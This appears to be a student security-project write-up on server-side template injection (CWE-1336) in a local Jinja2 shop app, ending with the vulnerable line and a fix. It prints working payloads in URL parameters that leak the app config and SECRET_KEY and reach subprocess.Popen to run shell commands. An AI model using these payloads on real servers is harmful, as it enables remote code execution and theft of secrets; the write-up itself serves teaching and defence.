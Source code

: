 # Analysis CWE-1336: Improper Neutralization of Special Elements Used in a Template Engine

## Introduction 
Many web applications use template engines that allow developers to insert externally-influenced values into free text or messages in order to generate a full web page, document, message, etc. Such engines include Twig, Jinja2, Pug, Java Server Pages, FreeMarker, Velocity, ColdFusion, Smarty, and many others - including PHP itself. Some CMS (Content Management Systems) also use templates.

Template engines often have their own custom command or expression language. If an attacker can influence input into a template before it is processed, then the attacker can invoke arbitrary expressions, i.e. perform injection attacks. For example, in some template languages, an attacker could inject the expression "{{7*7}}" and determine if the output returns "49" instead. The syntax varies depending on the language.

We our case we are using Jinja2 to generate this templates.

## Example

We can search for products based on a url , i.e ```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category=Drinkware``` . But we can exploit this since our category field is vulnerable to SSTi.
The link ```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{2*2}}``` returns the following result.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/81135b32-37f2-4e2c-ad74-237fff2f3e06)

As we can see the category is 4 the result of 2*2. But this raises the question who did this calculation and why? The answer is that the server did , so that means that we are executing code on the server and the server ran the code for the calculation because ```{{ }}``` signals to Jinga2 to render something that it in our case the result of 2\*2.
If we try the link ```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{print("Hi")}}``` we will see something curious.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/e410f795-abcf-4bfe-bc9e-1eaca2c0e50e)

This error is the result of the template engine running in a sandbox where we cant do function calls directly i.e we cant do ```print("Hi")```.
So what do we have access to? We at least have access to numbers as we show above , but also strings , list , dict , tuple , some variables like config , request .

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{%20config%20}}``` returns the following result.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/f2ed6d6b-6e34-4d5a-848e-b0b83b6cf40a)

In here we have access to something we probably shouldnt have, namely 'SECRET_KEY': 'dev'.

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{%20dict.__base__.__subclasses__()%20}}``` returns the following result.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/3b00e088-2795-453d-ae84-925a4d0c3d28)

What happened here is that we are running this piece of code ```dict.__base__.__subclasses__()```. ```dict``` is a class and ```dict.__base__``` returns the base class of ```dict``` which is ```Object```. Then we basicly do ```Object.subclasses()``` which returns a list of all classes ( since all classes come from the ```Object``` class). And this has give us the opportunity to access hundreds of new classes and functions in those classes , and have some fun with them. ```{{dict.__base__.__subclasses__()[351]}}``` is gonna give us ```<class 'subprocess.Popen'>``` which spawn some process. ( the index to find this class may vary )

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{dict.__base__.__subclasses__()[351](%22ls%20%22,shell=True,stdout=-1).communicate()[0].strip()}}```

Lists the file on the directory with ```ls```.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/0d2e307a-cb52-4064-af3a-f7c59ddf43f7)

```http://127.0.0.1:5000/products?minPrice=5&maxPrice=40&input=&category={{dict.__base__.__subclasses__()[351](%22cat%20__init__.py%22,shell=True,stdout=-1).communicate()[0].strip()}}```

Shows the contents of ```__init__.py``` which is source code of our website.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/b29ae7e0-eeb9-423e-861a-06937e28156c)

At this point we have access to ```bash``` commands and we can go some damage to the server.

## Weak code

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/f18d3a42-f402-4011-a008-cafd5530d711)

On this line we are calling rendering category as a template but we never check if category is safe to parse.

## Fix 

- Category shouldnt be rendered as a template it should be only treated as text to inject in some template, never a template.

![image](https://github.com/uTigas/SIOProject_1/assets/125353199/f427b211-2250-44d1-a925-e07b80728718)

- If we really need to render Category has a template we could also validade that category is something safe to render. 









